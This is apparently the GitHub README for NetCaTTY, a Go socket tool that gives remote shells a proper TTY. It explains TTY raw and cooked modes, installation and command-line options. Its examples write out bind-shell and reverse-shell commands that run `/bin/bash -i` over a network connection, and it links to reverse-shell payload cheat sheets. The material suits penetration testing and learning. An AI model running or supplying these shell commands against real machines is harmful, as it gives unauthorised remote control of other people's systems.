 # NetCaTTY

A simple TCP socket utility that gives you a TTY, either by listening or by
connecting to a remote.

## Why do I need a TTY?

It's like comparing a netcat shell to SSH. SSH is able to pass EVERYTHING that
you type to the remote. `Ctrl-C`, `Ctrl-Z` and friends work as expected and you
don't kill your session. The way that SSH achieves that behaviour is by spawning
the target process (shell) inside a PTY (a pseudo-TTY), putting the local
PTY (that your terminal gives you) in "raw mode", where the program is able
to handle all keystrokes, and forwards them to the remote PTY.

## How does this work?

Well it's mostly arcane magic, as TTYs (and by extent PTYs) are an ancient
technology used in teletypes (TeleTYpewriter and Pseudo-TeletYpewriter),
written around the 60s where everyone had no idea what they're doing and
drugs where at their best. So I'm not exactly sure, but I'm gonna try to explain
what I have in my head right now - if you wanna read the real thing and not
what I figured out by trial and error in 2 days,
read [this](http://www.linusakesson.net/programming/tty/index.php).

It's something like a buffer between the running program (`bash -i` lets say)
and the stdin (keyboard?). It has two modes (or more? I saw some weird
flags in termios): raw and cooked.

In cooked mode, the input is buffered line by line, so that `Ctrl-D`,
`Backspace` and other keys can be processed. This is the default mode when
you get input from stdin in your program.

In raw mode on the other hand, everything (or most things?) are passed to the
program (even `Backspace` and `Ctrl-C`) and it handles them itself. Even
character echo is disabled (where every character you type is displayed
on the screen).

So what we need to achieve is a cooked PTY on the remote (so it handles `Ctrl-C`
locally) where will take stdin from us and send stdout to us

The problems on achieving a cooked mode on the remote with the remote shell
are that first of all your local PTY is in cooked mode (so your netcat doesn't
ever receive that `Delete` character, your PTY handles it) and even if you put
your PTY in raw mode, the remote has no PTY at all, as it was spawned by another
process (like `exec`).

So the first problem is kinda trivial, you put your PTY in raw mode - and I say
kinda because nobody has documented this shit enough in a language like Go
or Python.

The second problem is not that easy to solve. You need to open a PTY and spawn
a process inside it like you would do in your terminal (so `bash` and `bash -i`
will work the same, as most programs understand that they're inside a PTY and
start in interactive mode) and proxy your stdin (got from the local raw PTY) to
the remote's cooked PTY stdin, and do the reverse for stdout.

Now this problem is a real pain, cause nobody does that, especially in any
language other than C. I've found solutions to that for some shells
(like `import pty; pty.spawn("bash")` for python) and I've integrated them into
the tool.

## Examples

Please don't hurt puppers or kitties with them!

If you're short on ideas for payloads, check the following:

 - msfvenom
 - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) by [swisskyrepo](https://github.com/swisskyrepo)
 - [oneliner.sh](https://github.com/operatorequals/oneliner-sh) by [operatorequals](https://github.com/operatorequals) 

### Bind shell

Target machine (with IP 192.168.1.1): `netcatty -e "/bin/bash -i" -lp 4444`

Your terminal: `netcatty 192.168.1.1 4444`

### Reverse shell

Target machine: `netcatty -e "/bin/bash -i" 192.168.1.100 4444`

Your terminal (with IP 192.168.1.100): `netcatty -lp 4444`

## Installation

You can download a binary for your platform [here](https://github.com/dzervas/netcatty/releases).

Compile it on your own:

```bash
git clone https://github.com/dzervas/netcatty
cd netcatty
go run netcatty.go -h
```

Or compile binaries for all OSes & architectures:

```
go get github.com/mitchellh/gox
gox -output "dist/{{.Dir}}_{{.OS}}_{{.Arch}}"
```

## Usage

```
Usage:
  netcatty [OPTIONS] [hostname] [port]

Application Options:
  -l, --listen      Listen mode, for inbound connects
  -p, --local-port= Local port number
  -r, --randomize   Randomize local and remote ports
  -s, --source=     Local source address (ip or hostname)
  -T, --telnet      answer using TELNET negotiation
  -v, --verbose     -- Not effective, backwards compatibility
  -V, --version     Output version information and exit

Service:
  -P, --protocol=   Provide protocol in the form of
                    tcp{,4,6}|udp{,4,6}|unix{,gram,packet}|ip{,4,6}[:<protocol-number>|:<protocol-name>]
                    For <protocol-number> check
                    https://www.iana.org/assignments/protocol-numbers/protocol-numbers.xhtml
  -t, --tcp         TCP mode (default)
  -u, --udp         UDP mode

InOut:
  -e, --exec=       Program to exec after connect
  -i, --interval=   Delay interval for data sent, ports scanned
  -L, --tunnel=     Forward local port to remote address
  -o, --output=     Output hexdump traffic to FILE (implies -x)
  -x, --hexdump     Hexdump incoming and outgoing traffic
  -z, --zero        Zero-I/O mode (used for scanning)

Action:
  -D, --detect      Detect remote shell automatically and try to raise a TTY on the remote
  -R, --auto-raw    Put local TTY in Raw mode on connect (action)

Help Options:
  -h, --help        Show this help message
```

---

Credits at [operatorequals](https://github.com/operatorequals) for making me
write this and at [mattn](https://github.com/mattn) for creating [go-tty](https://github.com/mattn/go-tty).

